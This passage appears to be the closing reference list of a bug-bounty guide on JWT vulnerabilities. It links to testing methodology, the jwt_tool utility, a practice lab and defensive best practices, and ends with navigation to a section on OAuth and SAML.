*   [Intigriti: Exploiting JWT Vulnerabilities](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-jwt-vulnerabilities) — Detailed blog walkthrough of JWT exploitation techniques.
*   [HowToHunt: JWT Collection](https://github.com/KathanP19/HowToHunt/blob/master/JWT/JWT.md) — Community-curated hunting techniques.
*   [OWASP Testing Guide: JWT](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens) — Official methodology.
*   [ticarpi/jwt_tool (GitHub)](https://github.com/ticarpi/jwt_tool) — The automation tool used in Section 7.
*   [JWT-Lab Practice Challenges](https://jwt-lab.herokuapp.com/challenges) — Hands-on practice environment.
*   [Auth0: JWT Best Practices](https://auth0.com/blog/a-look-at-the-latest-draft-for-jwt-bcp/) — Defensive perspective for understanding what developers get wrong.

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: OAuth & SAML](OAuth%20&%20SAML%20Vulnerabilities.md) >>*
